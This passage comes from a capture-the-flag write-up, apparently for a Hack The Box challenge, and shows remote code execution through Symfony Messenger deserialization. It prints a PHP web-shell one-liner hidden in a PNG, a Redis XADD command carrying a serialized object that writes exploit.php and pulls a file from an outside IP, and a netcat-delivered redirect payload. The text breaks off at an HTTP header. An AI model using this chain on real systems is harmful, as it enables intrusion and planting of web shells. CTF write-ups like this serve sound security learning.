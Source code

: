 So we succeeded in getting our remote code execution, so we will modify the payload to be as follows:

`php test.php '<?=`$_GET[1]`?>' blank.png`

Once done, we restart the application, we recreate a point, we go to `/static/exports/exploit.php` and ... :

![flag_local](images/14.png)

We arrive at flag locally ! It is now necessary to recover the serialized payload in redis, and to try to insert it directly via the XADD command. We recover our payload which is in the form :

```
XADD messages * message "s:1053:\"{\"body\":\"O:36:\\\\\\\"Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Envelope\\\\\\\":2:{s:44:\\\\\\\"\\\\0Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Envelope\\\\0stamps\\\\\\\";a:1:{s:46:\\\\\\\"Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Stamp\\\\\\\\BusNameStamp\\\\\\\";a:1:{i:0;O:46:\\\\\\\"Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Stamp\\\\\\\\BusNameStamp\\\\\\\":1:{s:55:\\\\\\\"\\\\0Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Stamp\\\\\\\\BusNameStamp\\\\0busName\\\\\\\";s:21:\\\\\\\"messenger.bus.default\\\\\\\";}}}s:45:\\\\\\\"\\\\0Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Envelope\\\\0message\\\\\\\";O:33:\\\\\\\"App\\\\\\\\Message\\\\\\\\SubscribeNotification\\\\\\\":4:{s:5:\\\\\\\"email\\\\\\\";s:6:\\\\\\\"a@a.fr\\\\\\\";s:4:\\\\\\\"uuid\\\\\\\";O:47:\\\\\\\"App\\\\\\\\MessageHandler\\\\\\\\SubscribeNotificationHandler\\\\\\\":7:{s:5:\\\\\\\"email\\\\\\\";N;s:4:\\\\\\\"uuid\\\\\\\";N;s:11:\\\\\\\"export_file\\\\\\\";s:11:\\\\\\\"exploit.php\\\\\\\";s:12:\\\\\\\"x_coordinate\\\\\\\";N;s:12:\\\\\\\"y_coordinate\\\\\\\";N;s:3:\\\\\\\"map\\\\\\\";s:30:\\\\\\\"http:\\/\\/146.59.156.82\\/blank.png\\\\\\\";s:5:\\\\\\\"stamp\\\\\\\";s:30:\\\\\\\"http:\\/\\/146.59.156.82\\/blank.png\\\\\\\";}s:12:\\\\\\\"x_coordinate\\\\\\\";s:3:\\\\\\\"420\\\\\\\";s:12:\\\\\\\"y_coordinate\\\\\\\";s:3:\\\\\\\"226\\\\\\\";}}\",\"headers\":[]}\";"
```

We go to `/static/export/exploit.php` :

![flag_local_read](images/15.png)

So we have our functional payload ! We just have to spawn an instance on the hackthebox website, and to put our payload in the header "Location", for that, I listen directly with netcat to avoid having to play with the quotes.

So we send the following payload:

```
HTTP/1.1 302
```